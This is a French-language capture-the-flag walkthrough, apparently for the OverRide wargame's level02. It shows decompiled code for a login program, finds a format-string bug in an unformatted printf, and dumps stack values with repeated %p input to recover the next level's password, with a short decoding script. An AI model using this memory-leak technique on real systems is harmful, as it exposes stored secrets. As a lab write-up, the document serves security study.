 # **Level 02**

Code decompiler:

```
undefined8 main(void)

{
  int iVar1;
  size_t sVar2;
  long lVar3;
  undefined8 *puVar4;
  undefined8 local_118 [14];
  undefined8 local_a8 [6];
  undefined8 local_78 [12];
  int local_14;
  FILE *local_10;
  
  puVar4 = local_78;
  for (lVar3 = 0xc; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined4 *)puVar4 = 0;
  puVar4 = local_a8;
  for (lVar3 = 5; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined *)puVar4 = 0;
  puVar4 = local_118;
  for (lVar3 = 0xc; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined4 *)puVar4 = 0;
  local_10 = (FILE *)0x0;
  local_14 = 0;
  local_10 = fopen("/home/users/level03/.pass","r");
  if (local_10 == (FILE *)0x0) {
    fwrite("ERROR: failed to open password file\n",1,0x24,stderr);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  sVar2 = fread(local_a8,1,0x29,local_10);
  local_14 = (int)sVar2;
  sVar2 = strcspn((char *)local_a8,"\n");
  *(undefined *)((long)local_a8 + sVar2) = 0;
  if (local_14 != 0x29) {
    fwrite("ERROR: failed to read password file\n",1,0x24,stderr);
    fwrite("ERROR: failed to read password file\n",1,0x24,stderr);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  fclose(local_10);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets((char *)local_78,100,stdin);
  sVar2 = strcspn((char *)local_78,"\n");
  *(undefined *)((long)local_78 + sVar2) = 0;
  printf("--[ Password: ");
  fgets((char *)local_118,100,stdin);
  sVar2 = strcspn((char *)local_118,"\n");
  *(undefined *)((long)local_118 + sVar2) = 0;
  puts("*****************************************");
  iVar1 = strncmp((char *)local_a8,(char *)local_118,0x29);
  if (iVar1 == 0) {
    printf("Greetings, %s!\n",local_78);
    system("/bin/sh");
    return 0;
  }
  printf((char *)local_78);
  puts(" does not have access!");
                    // WARNING: Subroutine does not return
  exit(1);
}
```
On remarque tres vite un `printf` qui n'est pas au bon `format` a la ligne 75 `printf((char *)local_78);`
Nous serons donc probablement sur un exploit `Format string attack`
Testons un peu le programme,
```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: test
--[ Password: test
*****************************************
test does not have access!
```
Maintenant avec du format pris en charge par printf, sachat que le printf mal former affiche l'username,
```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p
--[ Password: test
*****************************************
0x7fffffffe4f0 does not have access!
```
De plus, on peut voir dans le code que le `.pass` du `user suivant` est `stocker` dans la `stack` apres un open puis un read.
Donc si l'on affiche des %p avec notre printf, nous devrions voir notre .pass apparaitre
```
level02@OverRide:~$ (python -c "print '%p '*200"; python -c "print 'test'") > /var/crash/file
level02@OverRide:~$ cat /var/crash/file - | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8
0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025
0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758
0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
On voit donc en sortie, notre enchainement de `702520` qui correspond a `%p ` une suite de characteres pui de nouveau notre enchainement,
Penchons nous sur ces characteres:
`0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`
Si on decode de l'hexa vers l'ascii la premiere suite (en enlevant le 0x au prealable), on obtient `unPR47hH`,
Or on sait que les adresses sont notees en little endian, donc il faut reverse le resultat, ce qui donne `Hh74RPnu`.
Faisons sur le tout,
```
decrypt.py

l = "756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d"
l = l.split()
for s in l:
	print(bytearray.fromhex(s).decode()[::-1], end="")
print("")

```
```
python decrypt.py 
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
testons ce password pour level03,
```
level02@OverRide:~$ su level03
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$ id
uid=1003(level03) gid=1003(level03) groups=1003(level03),100(users)
```
